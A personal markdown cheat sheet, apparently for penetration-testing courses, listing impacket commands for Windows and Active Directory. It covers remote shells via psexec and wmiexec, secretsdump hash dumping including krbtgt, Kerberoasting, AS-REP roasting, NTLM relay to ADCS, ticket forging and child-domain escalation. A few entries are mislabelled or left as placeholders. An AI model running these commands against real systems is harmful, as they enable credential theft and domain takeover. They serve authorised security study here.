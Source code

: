 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.7k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump -h # Example of calling a script
```

You could also install them using `pipx`:

```shell!
$ pipx install git+https://github.com/fortra/impacket
$ secretsdump.py -h # Example of calling a script
```
</div><div>

You may also want to install them manually <small>(dirty/may not work)</small>:

```shell!
$ DEST="$HOME/tools/impacket"
$ git clone -b "master" "https://github.com/fortra/impacket" $DEST
$ pip install --user -r $DEST/requirements.txt
$ pip install --user $DEST
$ python $DEST/examples/secretsdump.py [...]
```

📚 You can refer to [thehacker.recipes](https://tools.thehacker.recipes/impacket) for a list of scripts.
</div></div>

<hr class="sep-both">

## Impacket Overview

<div class="row row-cols-lg-2"><div>

#### Impacket 'target' parameter

Most scripts operating require a **target** such as `username@IP`. You can specify the password within the command.

```shell!
$ impacket-xxx username@IP
$ impacket-xxx username@IP -no-pass
$ impacket-xxx username:password@IP
$ impacket-xxx username:password@IP -windows-auth
$ impacket-xxx domain/username:'password'@IP
```

`-windows-auth` can be specified to indicate that we want to use local authentication <small>(`.\username`)</small> instead of Active Directory authentication.
</div><div>

#### Impacket Alternative Logins

On Linux, as per to these [notes](/operating-systems/cloud/active-directory/security/index.md#active-directory-on-linux), you can log in to active directory and get a TGT ticket. To use it with impacket tools, use `-k` and `-no-pass`.

```shell!
$ impacket-xxx DC01.example.com -no-pass -k
```
</div></div>

<hr class="sep-both">

## Impacket Clients

<div class="row row-cols-lg-2"><div>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP
$ impacket-mssqlclient username:password@IP
$ impacket-mssqlclient username:password@IP -windows-auth
$ impacket-smbclient -no-pass domain\username@IP -hashes lmhash:nthash
SQL> exit
```

#### smbclient

Connect to a SMB server.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
smbclient> shares
smbclient> use share_name
smbclient> ls
smbclient> tree
```
</div><div>

#### wmiexec

Pop a semi-interactive shell using [DCOM](/operating-systems/networking/protocols/dcom.md). It runs commands as Local Administrator if possible, but creates a new process per command.

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

#### smbexec

XXX.

```shell!
$ impacket-smbexec username:password@IP
```

#### psexec

Pop a semi-interactive remote shell using RemComSvc. It runs commands as SYSTEM to it's quite suspicious and making noise.

```shell!
$ impacket-psexec username:password@IP
$ impacket-psexec [...] -hashes lmhash:nthash
$ impacket-psexec [...] -hashes :nthash
$ impacket-psexec [...] -target-ip 172.16.5.5
$ impacket-psexec [...] -k -no-pass
```
</div></div>

<hr class="sep-both">

## Impacket Servers

<div class="row row-cols-lg-2"><div>

#### smbserver

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ # impacket-smbserver -smb2support share_name /path/to/share
$ impacket-smbserver -smb2support share .
$ # impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support -username username -password password share .
```
</div><div>
</div></div>

<hr class="sep-both">

## Windows Utilities

<div class="row row-cols-lg-2"><div>

#### secretsdump

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL
$ impacket-secretsdump [...] -outputfile cracked 
<output format is explained in the output>
```

You can remotely dump hashes using:

```shell!
$ impacket-secretsdump domain/username:password@target
$ impacket-secretsdump [...] -just-dc # ???
$ impacket-secretsdump [...] -just-dc-user krbtgt
$ impacket-secretsdump [...] -just-dc-user 'example.com/username'
$ impacket-secretsdump [...] -outputfile hashes
$ impacket-secretsdump [...] -hashes lmhash:nthash
$ impacket-secretsdump [...] -dc-ip IP
```

#### ticketConverter

Convert tickets.

```shell!
$ impacket-ticketConverter xxx yyy.kirbi # from ccache to kirbi
$ impacket-ticketConverter xxxx.bin xxx.kirbi # same
$ impacket-ticketConverter xxx.kirbi xxx.ccache # from kirbi to ccache
```
</div><div>

#### GetUserSPNs

Refer to Kerberoasting.

```shell!
$ impacket-GetUserSPNs EXAMPLE.COM/username -k -no-pass
$ impacket-GetUserSPNs EXAMPLE.COM/username@EXAMPLE.COM -k -no-pass
$ impacket-GetUserSPNs -dc-ip IP domain/user:password # list all
$ impacket-GetUserSPNs [...] -request # get TGS for all
$ impacket-GetUserSPNs [...] -request-user cn
$ impacket-GetUserSPNs [...] -outputfile cn_tgs
$ impacket-GetUserSPNs [...] -target-domain dev.example.com
```

#### GetNPUsers

Refer to asreproasting.

```shell!
$ impacket-GetNPUsers -dc-ip DC01 domain/username:password
$ impacket-GetNPUsers -dc-ip IP -usersfile valid_users.txt domain/junkusername -no-pass
```

#### GetNPUsers

Refer to GPO Passwords.

```shell!
$ impacket-Get-GPPPassword -xmlfile Groups.xml LOCAL
```

</div></div>

<hr class="sep-both">

## Impacket MS-RPC Utilities

<div class="row row-cols-lg-2"><div>

Refer to [MS-RPC](/operating-systems/networking/protocols/rpc.md#rpc-smb-footprinting).

#### samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

#### lookupsid

Expose the domain SID and groups/usernames RID using brute force.

```shell!
$ impacket-lookupsid username:password@IP
$ impacket-lookupsid -domain-sids username:password@IP
```
</div><div>

#### rpcdump

```shell!
$ impacket-rpcdump @DCIP
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ impacket-dpapi unprotect -file xxx -key "xxx"
$ impacket-dpapi masterkey -file H-I-J-K-L -sid S-A-B-C-D-E-F-G -password password
```

```shell!
$ impacket-ntlmrelayx --no-http-server -smb2support -t IP -c '<command>'
$ impacket-ntlmrelayx -debug -smb2support --target http://target/certsrv/certfnsh.asp --adcs --template DomainController
$ impacket-ntlmrelayx --no-http-server -smb2support -t IP -c '<command>'
```
```shell!
$ impacket-ticketer -nthash <krbtgt hash> -domain dev.example.com -domain-sid <child domain SID> -extra-sid <target domain SID> dummy
```
</div><div>

```shell!
$ impacket-raiseChild -target-exec 172.16.5.5 dev.example.com/username:password
```
</div></div>